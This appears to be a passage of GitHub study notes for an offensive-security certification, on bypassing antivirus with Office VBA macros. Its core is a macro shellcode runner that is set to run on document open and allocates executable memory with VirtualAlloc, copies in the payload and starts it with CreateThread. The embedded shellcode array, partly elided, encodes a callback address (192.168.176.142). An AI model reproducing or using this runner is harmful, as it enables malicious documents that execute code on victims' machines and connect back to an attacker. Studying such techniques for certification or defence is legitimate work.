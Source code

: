 # TOC

+ [bypassing-antivirus-in-vba](https://github.com/B4l3rI0n/OSEP/new/main/AV-Evasion#bypassing-antivirus-in-vba)
+ [full-code](https://github.com/B4l3rI0n/OSEP/new/main/AV-Evasion#full-code)
+ [vba-stomping--microsoft-word-macro-evasion](https://github.com/B4l3rI0n/OSEP/new/main/AV-Evasion#vba-stomping--microsoft-word-macro-evasion)


# **Bypassing Antivirus in VBA**

VBA (Visual Basic for Applications) is commonly abused in **malicious Office documents** (Word, Excel, etc.) to execute shellcode. 

However, antivirus (AV) products heavily scan and monitor this vector. To bypass detection, we use **encryption + heuristic evasion techniques**

---

## 🔹 1. The Basic VBA Shellcode Runner

**Core workflow:**

1. Store payload (shellcode) inside VBA as a byte array (`buf`).
2. Allocate memory with `VirtualAlloc`.
3. Copy shellcode into allocated memory (`RtlMoveMemory`).
4. Start execution with `CreateThread`.
5. Automatically run on document open (`Document_Open` or `AutoOpen`).

**Code snippet:**

```visual-basic
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function mymacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)

```